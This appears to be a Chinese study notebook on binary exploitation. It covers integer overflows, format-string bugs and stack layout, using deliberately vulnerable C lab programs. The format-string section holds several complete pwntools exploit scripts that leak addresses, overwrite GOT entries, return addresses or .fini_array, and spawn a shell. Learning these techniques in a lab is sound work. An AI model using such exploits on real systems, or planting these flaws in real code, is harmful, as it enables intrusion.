






### 整数安全

#### 概述

> 计算机中整数的溢出不会改写额外的内存，所以不会直接导致任意代码执行，但如果一个整数用来计算一些敏感数值，那就有可能存在危险。主要会有两种潜在的危险，一，这个整数控制着memcpy、strncpy等函数的复制大小，这时可能存在缓冲区溢出风险；二，这个整数在一些判断中，决定着程序运行的流程。

整数异常有三种：

* 溢出：符号数存在，两正或者两负相加可能改变符号位的值，产生溢出
* 回绕：无符号数没有负数，0-1（小-大）得到最大值（正值），255+1（1byte的无符号数）得到0
* 截断：将较大宽度的数存入较小宽度，发生高位截断

#### 多发函数

* memcpy
* strncpy
* snprintf
* fgets
* vsnprintf
* 等

#### 实例

eg1：

```c
char buf[80];
void vulnerable(){
    //int len 长度从外部输入
    int len = read_int_from_network();
    char *p = read_string_from_network();
    if(len > 80){
        error("too long");
        return;
    }
    // 第三个参数是size_t，len为参数会发生类型转换，负数会被转为很大的数
    memcpy(buf, p, len);
}
```

eg2：

```c
 void vulnerable(){
     size_t len;
     char *buf;
     len = read_int_from_network();
     // 如果len为255，255+5=4
     buf = malloc(len + 5);
     // buf的大小仅为4bytes，而len巨大
     read(fd, buf, len);
 }
```

eg3：

```c
void main(int argc, char *argv[]){
    unsigned short int total;
    // 计算结果超出total的范围，发生截断，申请较小的内存
    total = strlen(argv[1]) + strlen(argv[2]) + 1;
    char *bug = (char *)malloc(total);
    // 过长的参数发生缓冲区溢出
    strcpy(buf, argv[1]);
    strcat(buf, argv[2]);
    
    //......
}
```

### 格式化字符串

#### 概述

> printf、sprintf等函数有一个固定参数，既格式化字符串，正常情况下printf("%s,%s,%d",&str1,str2,num1)格式化字符串中的转化指示符和后面的参数是一一对应的，但是实际上，当printf("%s,%s,%d",&str1,str2)的转化指示符多于后续参数时，函数不会报错，而是会继续按照格式和顺序打印栈上的数据，这就可能造成如下问题：
>
> * 访问了非法地址或受保护的地址，造成程序崩溃；
>
> * 超出参数的转化指示符造成栈数据泄露；
>
> * %s可以将四个字节的数据当作指针，读取目标地址的数据，当我们通过构造数据控制%s读取的指针时，即可造成任意地址的内存泄漏；
>
> * 利用%n进行栈内存覆盖。
>
>   
>
>   **当格式化字符串可控时**，这些风险就可能发生。

| 指示符 | 类型   | 输出 |
| ------ | ------ | ---- |
| %d     | 4B     |      |
| %u     | 4B     |      |
| %x     | 4B     |      |
| %s     | 4B ptr |      |
| %c     | 1B     |      |

| 长度 | 类型 | 输出 |
| ---- | ---- | ---- |
| hh   | 1B   |      |
| h    | 2B   |      |
| l    | 4B   |      |
| ll   | 8B   |      |


#### 多发函数

* fprintf()
* printf()
* sprintf()
* snprintf()
* dprintf()
* vfprintf() vprintf() vsprintf() vsnprintf() vdprintf()
* 等

#### 程序

编译程序时关闭保护机制

* NX：-z execstack / -z noexecstack (关闭 / 开启)    不让执行栈上的数据，于是JMP ESP就不能用
* Canary：-fno-stack-protector /-fstack-protector / -fstack-protector-all (关闭 / 开启 / 全开启)  栈里插入cookie信息
* PIE：-no-pie / -pie (关闭 / 开启)   地址随机化，另外打开后会有get_pc_thunk
* RELRO：-z norelro / -z lazy / -z now (关闭 / 部分开启 / 完全开启)  对GOT表具有写权限
* -fno-pic/-pic 关闭/开启位置无关代码

```shell
gcc program.c -o program
```

下面的分析以这个程序为例

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int test1;

int init_func(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    return 0;
}

int dofunc(){
    char buf1[0x10];
    char buf2[0x10];
    char buf3[0x10];
    int test2=0;
    int test3=0;
    while(1){
        puts("input:");
        read(0,buf1,0x100);
        printf(buf1);
        if(test3==100)
            system("/bin/sh");
    }
    return 0;
}

int main(){
    init_func();
    dofunc();
    return 0;
}
```

#### 栈数据泄漏

> 攻击者构造格式化字符串时，转化指示符的数量多于后续的参数，多出的转化指示符会继续读取栈上的数据，或者直接使用类似"%num$"这样的转化指示符获得栈上指定顺序的参数

* 注意x64和x32的区别，64的前六个参数通过寄存器传递
  * 由于第一个参数为格式化字符串由rdi传递，%1$p~%5$p表示RSI、RDX、RCX、R8和R9，之后为栈数据


#### 任意地址内存泄露

* 这是调用printf前的栈信息



* 输入`%12$p`，获取栈底数据



* 简单来说，通过`%num$`这个定位符号，可以访问到到栈上的数据；通过`地址+%s`的形式，可以读到任意地址的数据

#### 可写地址内存覆盖

> 这里主要是利用到了，"%n"这个转换指示符，printf("hello%s%n",str,&n)%n会将当前已经成功写入流或者缓冲区的字符个数写入指定参数中，如果str[]=“hello"，则这里的n为10。刚刚%n有与其对应的参数，而当%n为多余的转化指示符时，即可以栈上的内存单元的值为地址写入数据，由任意内存地址泄露我们已经知道了如何在栈上写入任意地址，也知道了如何访问该地址，现在问题是如何写入我们想要的值，%n表示着已经成功写入流或者缓冲区的字符个数，这个数字看似可以通过构造格式化字符串的长度来控制，但是实际上不现实，因为如果我们想写\xffffffff，那意味着我们要构造长度为255\*255\*255\*255长度的字符串，实际上，我们可以**通过使用宽度或者精度转换规范来实现写入任意数据**，例如printf("hello%50d%n",i,&n)%n写入的大小为5+50
>
> 此外，%hhn %hn %n %ln %lln分别表示写入单字节 双字节 4字节 8字节 16字节，可以通过多个%hhn拼接成指定字节数的变量


#### 示例1-常规读写

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int test1;

int init_func(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    return 0;
}

int dofunc(){
    char buf1[0x10];
    char buf2[0x10];
    char buf3[0x10];
    int test2=0;
    int test3=0;
    while(1){
        puts("input:");
        read(0,buf1,0x100);
        printf(buf1);
        if(test3==100)
            system("/bin/sh");
    }
    return 0;
}

int main(){
    init_func();
    dofunc();
    return 0;
}
```


```shell
gcc program.c -o program
```

* 思路
  * 先利用%n$p泄露栈顶内容，以获取栈地址
  * 栈地址计算偏移获取test3地址
  * 输入test3的地址（保存在buf1），再通过%n$p写入数据

```assembly
0x00007fffffffe080│+0x0000: 0x00005555555552d0  →  <__libc_csu_init+0> endbr64   ← $rsp
0x00007fffffffe088│+0x0008: 0x0000000000000000
0x00007fffffffe090│+0x0010: 0x00000a7024323125 ("%12$p\n"?)      ← $rsi, $rdi
0x00007fffffffe098│+0x0018: 0x00007fffffffe1b0  →  0x0000000000000001
0x00007fffffffe0a0│+0x0020: 0x0000000000000000
0x00007fffffffe0a8│+0x0028: 0x24a7da8f496c8900
0x00007fffffffe0b0│+0x0030: 0x00007fffffffe0c0  →  0x0000000000000000    ← $rbp
```

* printf之前栈地址如下，先通过`%12$p`泄露栈地址，`0x00007fffffffe0c0`



* test的地址为`rbp-0x24`即`(0x7fffffffe0c0-0x10)-0x24`，这里为`0x7fffffffe07c`；buf1的地址为`rbp-0x20`，这里为`0x7fffffffe090`，`%8$`指向buf1的地址
* 第二次输入`\x7c\xe0\xff\xff\xff\x7f\x00\x00%92$c%8$ln`
  * <u>实际上，刚刚的思路不可行，因为在输入地址时，会于`\x00`处截断</u>
  * 应该更换为`%100c%10$lnaaaaa\x7c\xe0\xff\xff\xff\x7f\x00\x00` 
    * `aaaaa`起到对齐左右，`%10$`增加了偏移
    * 结尾的最后`\x00`也有效，因为我们是通过read读入的

```python
from pwn import *
import os

context(log_level='debug',arch='amd64', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/02_TEST/fmt'
context.binary = elfpath
elf = ELF(elfpath)
rop = ROP(context.binary)
io = process()
gdb.attach(io, '''
b *dofunc+92
''')

io.recvline()
payload1 = b'%12$p'
io.sendline(payload1)

stack = int(io.recv()[2:14],16)
print("stack is "+hex(stack))
test_addr = stack-0x10-0x24

pause()
payload2=b'%100c%10$lnaaaaa'+p64(test_addr)
io.sendline(payload2)
io.recv()


io.interactive()
```

#### 示例2-栈上格式化字符串getshell x86

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


int init_func(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    return 0;
}

int dofunc(){
    char buf[0x100] ;
    while(1){
        puts("input:");
        read(0,buf,0x100);
        if(!strncmp(buf,"quit",4))
            break;
        printf(buf);
    }
    return 0;
}

int main(){
    init_func();
    dofunc();
    return 0;
}
```

```shell
 gcc -m32 -z lazy program.c -o program
```

* 思路
  * 泄露栈地址，推算buf的相对位置
  
  * 在buf写入要任意写入的内存地址，利用`%num$n`任意地址写入
  
  * 在什么地方写入，写入什么内容
    * 改返回地址，到`system`（需要泄露libc基址和`/bin/sh`地址）
    
    * 将`strncmp`或者`printf`对应的`got`表项覆写为`system`，buf输入`/bin/sh`（泄露程序基址和libc基址）
      * 基址的泄露：泄露栈上的返回值（这里可泄露的值其实很多，比如.bss或.data或者指向主程序的指针在栈上都可以泄露），推算基址地址
      
      * 通过主程序基址计算got表地址
      
      * printf 传入`got['strncmp']`的地址和%s，打印出值，计算libc偏移，获取system绝对地址，再将`got['strncmp']`覆写为system的绝对地址
      
        * 直接覆写`got['strncmp']`低三位地址为system的低三位地址，但是需要爆破从低到高第四位到六位
      
          
      
    * oneGadget
    
    * malloc_hook（由于printf等函数实现大量使用malloc，可以结合堆技巧）
    
    * iofile

```python
# 改返回地址，到`system`

from pwn import *

context(log_level='debug',arch='i386', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/01_PWM/fmtStack32'
context.binary = elfpath
elf = ELF(elfpath)
io = process()
# gdb.attach(io, '''
# b *dofunc+119
# ''')

io.recvline()

# 先获取elf的基地址，推算got表中strncmp项的地址
payload1 = b'%p'  # 这里直接打印出字符串quit的地址(由于这个程序的特性，打印出字符串quit的地址就能获取elf的基地址，通用方法是打印返回地址)
io.send(payload1)
string_offset = list(elf.search(b'quit'))[0]  # 获取字符串quit的偏移地址
base_addr = int(io.recv()[2:10],16) - string_offset  # 计算出elf的基地址，[2:10]剪切掉前缀0x
log.info('base_addr: ' + hex(base_addr))
got_strncmp_offset = elf.got['strncmp']  # 获取got表中strncmp项的偏移地址
got_strncmp_addr = base_addr + got_strncmp_offset  # 计算出got表中strncmp项的地址
log.info('got_strncmp_addr: ' + hex(got_strncmp_addr))

# 打印出got表中strncmp项的地址，以计算libc的基地址，再推算system和/bin/sh地址(自己写/bin/sh也可以，但是复杂一些)；这里没考虑打印地址包含\x00的情况
payload2 = flat([got_strncmp_addr, b'%7$s'])
io.send(payload2)
libc_base_addr = unpack(io.recv()[4:8]) - 0x164380  # 0x164380是从libc中获取的偏移地址，[4:8]剪切掉四位地址
system_addr = libc_base_addr + 0x41780 # 0x41780是system函数在libc中的偏移地址
bin_sh_addr = libc_base_addr + 0x18E363  # 0x18E363是libc中"/bin/sh"的偏移地址
log.info('libc_base_addr: ' + hex(libc_base_addr))
log.info('system_addr: ' + hex(system_addr))
log.info('bin_sh_addr: ' + hex(bin_sh_addr))

# 打印出栈地址，通过调试或者静态分析，看栈上是否有指向栈的指针，通用方法是打印出当前ebp所指向的地址
payload3 = b'%74$p'
io.send(payload3)
oldebp_addr = int(io.recv()[2:10],16)  # 获取当前ebp所指向的地址
log.info('oldebp_addr: ' + hex(oldebp_addr))
ret_addr = oldebp_addr - 0x0c # 返回地址是ebp指向的地址减去0x0c
log.info('ret_addr: ' + hex(ret_addr))


# 接下来需要覆写返回地址和参数，为了方便构造，分多次写入。先将返回地址写为system函数的地址，这里没考虑写入地址包含\x00的情况
addr1 = ret_addr
n1 = p32(system_addr)[0]
payload4 = flat([addr1,f"%{n1-4}c%7$hhn".encode("utf8")])
io.send(payload4)
io.recv()

addr2= ret_addr + 1
n2 = p32(system_addr)[1]
payload5 = flat([addr2,f"%{n2-4}c%7$hhn".encode("utf8")])
io.send(payload5)
io.recv()

addr3 = ret_addr + 2
n3 = p32(system_addr)[2]
payload6 = flat([addr3,f"%{n3-4}c%7$hhn".encode("utf8")])
io.send(payload6)
io.recv()

addr4 = ret_addr + 3
n4 = p32(system_addr)[3]
payload7 = flat([addr4,f"%{n4-4}c%7$hhn".encode("utf8")])
io.send(payload7)
io.recv()

# 写参数地址，这里没考虑写入地址包含\x00的情况
param_addr = ret_addr + 0x08
addr1 = param_addr
n1 = p32(bin_sh_addr)[0]
payload8 = flat([addr1,f"%{n1-4}c%7$hhn".encode("utf8")])
io.send(payload8)
io.recv()

addr2 = param_addr + 1
n2 = p32(bin_sh_addr)[1]
payload9 = flat([addr2,f"%{n2-4}c%7$hhn".encode("utf8")])
io.send(payload9)
io.recv()

addr3 = param_addr + 2
n3 = p32(bin_sh_addr)[2]
payload10 = flat([addr3,f"%{n3-4}c%7$hhn".encode("utf8")])
io.send(payload10)
io.recv()

addr4 = param_addr + 3
n4 = p32(bin_sh_addr)[3]
payload11 = flat([addr4,f"%{n4-4}c%7$hhn".encode("utf8")])
io.send(payload11)
io.recv()

io.send(b'quit')

io.interactive()
```

```python
from pwn import *

context(log_level='debug',arch='i386', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/01_PWM/fmtStack32'
context.binary = elfpath
elf = ELF(elfpath)
io = process()
# gdb.attach(io, '''
# b *dofunc+119
# ''')

io.recvline()

# 先获取elf的基地址，推算got表中strncmp项的地址
payload1 = b'%p'  # 这里直接打印出字符串quit的地址(由于这个程序的特性，打印出字符串quit的地址就能获取elf的基地址，通用方法是打印返回地址)
io.send(payload1)
string_offset = list(elf.search(b'quit'))[0]  # 获取字符串quit的偏移地址
base_addr = int(io.recv()[2:10],16) - string_offset  # 计算出elf的基地址
log.info('base_addr: ' + hex(base_addr))
got_strncmp_offset = elf.got['strncmp']  # 获取got表中strncmp项的偏移地址
got_strncmp_addr = base_addr + got_strncmp_offset  # 计算出got表中strncmp项的地址
log.info('got_strncmp_addr: ' + hex(got_strncmp_addr))

# 打印出got表中strncmp项的地址，以计算libc的基地址，再推算system，这里没考虑打印地址包含\x00的情况
payload2 = flat([got_strncmp_addr, b'%7$s'])
io.send(payload2)
libc_base_addr = unpack(io.recv()[4:8]) - 0x164380  # 0x164380是从libc中获取的偏移地址
system_addr = libc_base_addr + 0x41780 # 0x41780是system函数在libc中的偏移地址
log.info('libc_base_addr: ' + hex(libc_base_addr))
log.info('system_addr: ' + hex(system_addr))

# # 这里需要一次写入got表，因为strncmp在循环中被调用
# addr_list = [(got_strncmp_addr+i,p32(system_addr)[i]) for i in range(4)]
# addr_list_order = sorted(addr_list, key=lambda x: x[1])
# base = 7
# # 这里没有考虑num1到num4中有0的情况
# num1 = str(addr_list_order[0][1])
# num2 = str(addr_list_order[1][1] - addr_list_order[0][1])
# num3 = str(addr_list_order[2][1] - addr_list_order[1][1])
# num4 = str(addr_list_order[3][1] - addr_list_order[2][1])
# nums = [num1, num2, num3, num4]
# length = len('%c')*4+len(num1)+len(num2)+len(num3)+len(num4)+len('%xx$hhn')*4
# offset = length//4 + 1
# padding = 4 - length % 4 
# payload3 = flat([f'%{nums[i]}c%{base+offset+i}$hhn' for i in range(4)]+[b'a'*padding]+[addr for addr,_ in addr_list_order])
payload3 = fmtstr_payload(7, {got_strncmp_addr: system_addr})  # pwntools的任意写功能，自动生成payload;7是格式化字符串本身对于%num$的索引
io.send(payload3)
io.recv()

io.send(b'/bin/sh\x00')

io.interactive()
```

#### 示例3-栈上 x64

* 程序和编译同上吗，只是编译为64位
* x64下，不仅可以泄露栈数据，还能泄露寄存器数据

```python
# 覆盖got表

from pwn import *

context(log_level='debug',arch='amd64', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/02_TEST/fmtStack64'
context.binary = elfpath
elf = ELF(elfpath)
io = process()
# gdb.attach(io, '''
# b *dofunc+119
# ''')

io.recvline()

# 先获取elf的基地址，推算got表中strncmp项的地址
payload1 = b'%0.16p'  # 这里直接打印出字符串quit的地址，这里打印的是rsi的值(由于这个程序的特性，打印出字符串quit的地址就能获取elf的基地址，通用方法是打印返回地址)
io.send(payload1)
string_offset = list(elf.search(b'quit'))[0]  # 获取字符串quit的偏移地址
base_addr = int(io.recv()[2:18],16) - string_offset  # 计算出elf的基地址
log.info('base_addr: ' + hex(base_addr))
got_strncmp_offset = elf.got['strncmp']  # 获取got表中strncmp项的偏移地址
got_strncmp_addr = base_addr + got_strncmp_offset  # 计算出got表中strncmp项的地址
log.info('got_strncmp_addr: ' + hex(got_strncmp_addr))

# 打印出got表中strncmp项的地址，以计算libc的基地址，再推算system
payload2 = flat([b'%7$saaaa',got_strncmp_addr])
io.send(payload2)
libc_base_addr = unpack(io.recv()[0:6]+b'\x00\x00') - 0x184010  # 0x184010是从libc中获取的偏移地址
system_addr = libc_base_addr +  0x52290 #  0x52290是system函数在libc中的偏移地址
log.info('libc_base_addr: ' + hex(libc_base_addr))
log.info('system_addr: ' + hex(system_addr))

payload3 = fmtstr_payload(6, {got_strncmp_addr: system_addr})  # pwntools的任意写功能，自动生成payload
io.send(payload3)
io.recv()

io.send(b'/bin/sh\x00')

io.interactive()
```

#### 示例4-非栈上格式化字符串 x64

* 与栈上的最大区别是，`%num$`无法再访问到格式化字符串本身，也就无法通过在格式化字符串中输入地址完成任意地址写和任意地址读 

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

// HITCON-Training lab9
char buf[200] ;

int init_func(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    return 0;
}

void do_fmt(){
    while(1){
        read(0, buf, 200);
        if(!strncmp(buf, "quit", 4))
            break;
        printf(buf);
    }
    return ;
}

void play(){
    puts("hello");
    do_fmt();
    return ;
}

int main(){
    init_func();
    play();
    return 0;
}
```

```shell
gcc -z lazy .c -o 
```

* 思路
  * 在栈上找到指向栈的指针A，利用`$num$`修改指针A所指的内容为想要写入内存的地址B，由于修改的地址B也在栈上，再次使用`%num$`指向地址B，即可达成在想要的地址写入想要的值
  * 另一个问题，不能传入地址写，那我们想要一次写8byte比较难，一般是写1byte或者2byte，这就要求被写入的内存，本身的高位符合我们的要求

```python
# 修改got表
# “四马分肥”
# * 在栈上布出 p p+2 p+4 p+6 四个地址（p一般是指向返回地址的栈地址）
# * 这个时候%num$hn可以访问到这四个地址，即可一口气写入这四个地址，八个字节

from pwn import *

context(log_level='debug',arch='amd64', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/02_TEST/fmtNoStack'
context.binary = elfpath
elf = ELF(elfpath)
io = process()

# gdb.attach(io, '''
# b *do_fmt+65
# b *do_fmt+75
# ''')

io.recvline()


# 注意两点
# * 常用的io.recv()接受上限为4096，在%lengthc length很大时，不能接受打印内容
# * payload后面要加上\x00 防止与前面payload的拼接 
# * libc中的函数的差值可能会超过2byte

# 先获取elf的基地址，推算got表中strncmp项的地址
payload1 = b'%0.16p\x00'  # 这里直接打印出字符串quit的地址(由于这个程序的特性，打印出字符串quit的地址就能获取elf的基地址，通用方法是打印返回地址)
io.send(payload1)
string_offset = list(elf.search(b'quit'))[0]  # 获取字符串quit的偏移地址
base_addr = int(io.recv()[2:18],16) - string_offset  # 计算出elf的基地址，[2:10]剪切掉前缀0x
log.info('base_addr: ' + hex(base_addr))
got_strncmp_offset = elf.got['strncmp']  # 获取got表中strncmp项的偏移地址
got_strncmp_addr = base_addr + got_strncmp_offset  # 计算出got表中strncmp项的地址
log.info('got_strncmp_addr: ' + hex(got_strncmp_addr))


# 这里一般不选择写在寄存器上，寄存器值易被覆盖
# 调试获取7$为返回值，6$指向栈上(6$->8$)。我们要将7$修改为指向got['strncmp']，然后就可以通过%n覆写got['strncmp']，这里覆写可能需要覆写4位
# 如何修改7$呢，我们要有一个栈上的值（也就是能被num$访问到的值）指向7$，这样的值很难自然出现，所以我们需要覆写出一个这样的值

# 打印出6$信息，也就是获取了一个栈上的地址，计算存放返回地址的栈地址
payload2 = b'%6$0.16p\x00'  
io.send(payload2)
ret_addr_offset =  -0x08 # 计算存放返回地址的栈地址和获取到的栈地址的差值
ret_addr = int(io.recv()[2:18],16) + ret_addr_offset
log.info('ret_addr in stack:' + hex(ret_addr))
pause()
# 在栈上，写一个地址指向存放返回地址，也就是让8$->7$
payload3 = f'%{ret_addr & 0xffff}c%6$hn\x00'.encode('utf8')
io.send(payload3)
io.recvrepeat(1)
pause()
# 通过刚刚构造的地址，覆写返回地址的低2位，也就是让7$->got['strncmp']
payload4 = f'%{got_strncmp_addr & 0xffff}c%8$hn\x00'.encode('utf8')
io.send(payload4)
io.recvrepeat(1)
pause()
# 通过%7$s打印出got['strncmp']，从而推算system的地址,\x00截断，防止和之前的输入混淆
payload5 = b'%7$s\x00'
io.send(payload5)
libc_base_addr = unpack(io.recv()[0:6]+b'\x00\x00') - 0x184230  # 0x184230是从libc中获取strncmp的偏移地址
system_addr = libc_base_addr +  0x52290 #  0x52290是system函数在libc中的偏移地址
log.info('libc_base_addr: ' + hex(libc_base_addr))
log.info('system_addr: ' + hex(system_addr))
pause()

# 通过$7 将got['strncmp']覆写为指向system，但是一次写四字节或更高字节容易崩，这里system和strncmp差了有四个字节
# payload6 = f'%{system_addr & 0xffffffff}c%7$n\x00'.encode('utf8')
# io.send(payload6)
# io.recvrepeat(20)

# 按照之前的方法，在栈上写一个地址指向got['strncmp'][2]
# 将8$->9$
ret_addr2 = ret_addr+0x10
payload6 = f'%{ret_addr2 & 0xffff}c%6$hn\x00'.encode('utf8')
io.send(payload6)
io.recvrepeat(1)
pause()

# 通过刚刚构造的地址，覆写返回地址的低2位，也就是让9$->got['strncmp'][2]
payload7 = f'%{(got_strncmp_addr & 0xffff)+0x02}c%8$hn\x00'.encode('utf8')
io.send(payload7)
io.recvrepeat(1)
pause()


# 一次将got['strncmp']的低四位覆写
# 这里payload8可以通过溢出操作完成顺序写
# payload8 = f'%{system_addr_low_0_2}c%7$hn%{0x10000 + system_addr_low_2_4-system_addr_low_0_2}c%9$hn\x00'.encode('utf8')
system_addr_low_0_2 = system_addr & 0xffff
system_addr_low_2_4 = (system_addr & 0xffff0000) >> 16
if system_addr_low_0_2 < system_addr_low_2_4:
    payload8 = f'%{system_addr_low_0_2}c%7$hn%{system_addr_low_2_4-system_addr_low_0_2}c%9$hn\x00'.encode('utf8')
elif system_addr_low_0_2==system_addr_low_2_4:
    payload8 = f'%{system_addr_low_0_2}c%7$hn%9$hn\x00'.encode('utf8')
else:
    payload8 = f'%{system_addr_low_2_4}c%9$hn%{system_addr_low_0_2 - system_addr_low_2_4}c%7$hn\x00'.encode('utf8')

io.send(payload8)
io.recvrepeat(1)


io.send(b'/bin/sh\x00')

io.interactive()
```

```python
# 诸葛连弩
# * 在栈上布出 p（p一般是指向返回地址的栈地址）
# * 这个时候%num$hn可以访问到这个地址，写入两字节
# * 在栈上布出 p+2
# * 这个时候%num$hn可以访问到这个地址，写入两字节
# 。。。。。。
# * 在栈上布出 p+6
# * 这个时候%num$hn可以访问到这个地址，写入两字节。完成八字节写入
# 不过很明显，这个方法在这里不能用于改got表里的printf strncmp read
```

#### 示例5-在格式化字符串长度有限的情况下使用*号

```c
```

```shell
```

```python
```

#### 示例6-只能打一次的格式化字符串 无PIE .init_array可写 有system（**NO RELRO**）

```c
//fmt_str_once_sys.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int sys(char *cmd){
    system(cmd);
}
 
int init_func(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    return 0;
}
 
int dofunc(){
    char buf[0x100] ;
    puts("input:");
    read(0,buf,0x100);
    printf(buf);     
    return 0;
}
 
int main(){
    init_func();
    dofunc();
    return 0;
}

```

```shell
gcc fmt_str_once_sys.c -no-pie -z norelro -o fmt_str_once_sys_x64
```

* 由于只能打一次格式化字符串，故无法实现先泄露（泄露栈地址），再写入（覆盖返回地址），在没有办法泄露的情况下，我们可以写入两个相对固定的地址：1.如果printf后续还有调用动态函数，可以覆盖该函数的got表为system@plt；2.覆盖.fini_array
* 这里介绍一个新的利用方式，修改`.fini_array`
  * 一次性：修改`.fini_array`指向`dofunc`，修改`printf`为system@plt（如果是@got还需要泄露）
  * 输入`/bin/sh`

```python
from pwn import *

context(log_level='debug',arch='amd64', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/02_TEST/fmt_str_once_sys_x64'
context.binary = elfpath
elf = ELF(elfpath)
io = process()


offset = 6
fini_array =  elf.get_section_by_name(".fini_array").header.sh_addr
system_plt = elf.plt['system']
dofunc_addr = elf.symbols['dofunc']
printf_got = elf.got['printf']
payload1 = fmtstr_payload(offset, {fini_array: dofunc_addr,printf_got: system_plt})
delimiter = 'input:'
io.sendlineafter(delimiter, payload1)

payload2 = b'/bin/sh\x00'
io.sendlineafter(delimiter, payload2)

io.interactive()
```

#### 示例7-只能打一次的格式化字符串 无PIE 无system .init_array可写（**NO RELRO**）

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int init_func(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    return 0;
}
 
int dofunc(){
    char buf[0x100] ;
    puts("input:");
    read(0,buf,0x100);
    printf(buf);     
    return 0;
}
 
int main(){
    init_func();
    dofunc();
    return 0;
}
```

```shell
gcc fmt_str_once_no_sys.c -no-pie -z norelro -o fmt_str_once_no_sys_pie_x64
```

* 由于主程序无system，无法选择劫持got的打法
* 还是选择修改`.fini.array`
  * 第一次修改.fini.array 泄露栈和libc地址
  * 计算栈地址 计算/bin/sh和system的地址
  * 修改栈的返回地址为 pop_rdi_ret; bin_sh_addr; system_addr（或者one_gadget）

```python
from pwn import *

context(log_level='debug',arch='amd64', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/01_PWM/fmt_str_once_no_sys_pie_x64'
context.binary = elfpath
elf = ELF(elfpath)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process()

# gdb.attach(io, '''
# ''')
```


#### 示例8-只能打一次的格式化字符串 有PIE 无system .init_array可写（**NO RELRO**）

* 在有pie的情况下

### 栈溢出

#### 概述

> c语言对数组引用不做任何边界检查，这是导致缓冲区溢出的根本原因。由于栈上保存着局部变量和一些状态信息（寄存器地址、返回地址等），一旦发生溢出，攻击者可以通过覆写返回地址来执行任意代码，利用方法包括shellcode注入、ret2libc、ROP等。同事，随着技术的发展，也出现了许多手段防御缓冲区溢出。

#### 函数调用栈

```c
# 实验程序
# gcc  -m32 -z execstack -fno-stack-protector -no-pie -z norelro -fno-pic func.c -o func.out -g

int func(int arg1,int arg2,int arg3,int arg4,int arg5,int arg6,int arg7,int arg8){
    int locl=arg1+1;
    int loc8=arg8+8;
    return locl+loc8;
}
int main(){
    return func(11,22,33,44,55,66,77,88);
}
```


* 整个程序的运行过程中栈的变化，每次进栈，先esp-=4；**栈顶指向的内存不为空**
  1. ebp的值进栈，main函数着对栈的使用开始
  2. mov ebp，esp，确定main函数栈的基址，**此时栈顶和栈底均指向原esp值**
  3. 八个参数从右往左按顺序进栈
  4. 跳转到func地址前，push eip，保存返回地址
  5. ebp值进栈，func函数对栈的使用开始
  6. mov ebp，esp，确定func函数栈的基址
  7. esp-=n，n是开辟的空间，供函数内局部变量使用（这里的局部变量地址空间增长是由低到高，所以这里如果有溢出，可以将刚刚进栈的高地址的原eip覆盖）
